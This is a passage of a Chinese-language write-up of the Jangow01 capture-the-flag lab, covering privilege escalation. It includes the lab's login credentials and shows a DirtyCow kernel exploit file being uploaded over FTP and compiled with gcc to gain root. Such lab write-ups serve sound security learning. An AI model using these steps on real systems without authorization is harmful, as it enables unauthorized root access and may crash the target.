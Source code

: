 ```shell
d41d8cd98f00b204e9800998ecf8427e
```

# 4.  Privilege Escalation

我们通过`jangow01/abygurl69`可以登录靶机系统，但是没有root权限，无法查看root目录下的文件，接下来就是想办法去提权。

登录到靶机上，查看系统版本：

![image-20231108103451120](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081108689.png)

![image-20231108103418150](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109353.png)

![image-20231108103923467](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109821.png)

使用的ubuntu 16.04，内核版本为4.4，低版本Linux操作系统，而且存在gcc。

用[DirtyCow](https://dirtycow.ninja/)去提权：

```shell
ftp> put dirtycow-mem.c
local: dirtycow-mem.c remote: dirtycow-mem.c
229 Entering Extended Passive Mode (|||39860|)
150 Ok to send data.
100% |**************************************************************************************************************|  5120      119.09 MiB/s    00:00 ETA
226 Transfer complete.
5120 bytes sent in 00:00 (9.16 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||10466|)
150 Here comes the directory listing.
-rw-------    1 1000     1000         5120 Nov 08 08:40 dirtycow-mem.c
-rw-rw-r--    1 1000     1000           33 Jun 10  2021 user.txt
226 Directory send OK.
```

然后在靶机bash中编译一下：

```shell
gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
```

运行，拿到root权限：

![image-20231108104653672](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109052.png)

并在root目录下发现proof.txt：

![image-20231108105345461](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081109550.png)

**备注**

实测dirtycow-mem不是很稳定，提权后存在导致系统崩溃的情况。

# Notes

靶机无法直接在命令行中直接使用'/'符号，这里可以使用自动补全路径的方式来获取'/'符号。
